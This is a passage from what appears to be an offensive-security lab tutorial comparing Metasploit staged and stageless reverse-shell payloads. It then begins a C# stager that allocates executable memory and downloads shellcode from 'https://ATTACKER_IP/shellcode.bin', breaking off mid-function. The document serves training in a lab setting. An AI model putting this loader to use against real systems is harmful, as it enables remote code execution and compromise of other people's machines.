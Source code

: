 Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the `_` versus `/` after `shell`):

|   |   |
|---|---|
|**Payload**|**Type**|
|windows/x64/shell_reverse_tcp|Stageless payload|
|windows/x64/shell/reverse_tcp|Staged payload|

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the `windows/x64/meterpreter_reverse_tcp`, rather than `windows/x64/meterpreter/reverse_tcp`, which works as its staged counterpart.

Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at `C:\Tools\CS Files\StagedPayload.cs`:


## Creating Your Own Stager

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
```